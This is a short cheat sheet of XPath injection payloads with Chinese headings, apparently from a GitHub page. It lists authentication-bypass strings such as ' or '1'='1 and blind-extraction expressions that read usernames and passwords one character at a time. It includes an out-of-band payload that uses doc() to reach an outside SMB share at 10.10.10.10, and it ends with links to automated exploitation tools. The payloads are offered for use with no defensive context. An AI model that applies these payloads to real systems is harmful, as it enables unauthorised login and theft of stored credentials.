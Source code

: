  #### 类似sql注入
	"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"
	' or '1'='1
	' or ''='
	x' or 1=1 or 'x'='y
	/
	//
	//*
	*/*
	@*
	count(/child::node())
	x' or name()='username' or 'x'='y
	' and count(/*)=1 and '1'='1
	' and count(/@*)=1 and '1'='1
	' and count(/comment())=1 and '1'='1
	search=')] | //user/*[contains(*,'
	search=Har') and contains(../password,'c
	search=Har') and starts-with(../password,'c
 #### 盲注
	字符串的大小
	and string-length(account)=SIZE_INT
	提取一个字符
	substring(//user[userid=5]/username,2,1)=CHAR_HERE
	substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
 #### OOB
  	http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
 #### 工具
  	https://github.com/orf/xcat
	https://github.com/feakk/xxxpwn
	https://github.com/aayla-secura/xxxpwn_smart
	https://github.com/micsoftvn/xpath-blind-explorer
	https://github.com/Harshal35/XMLCHOR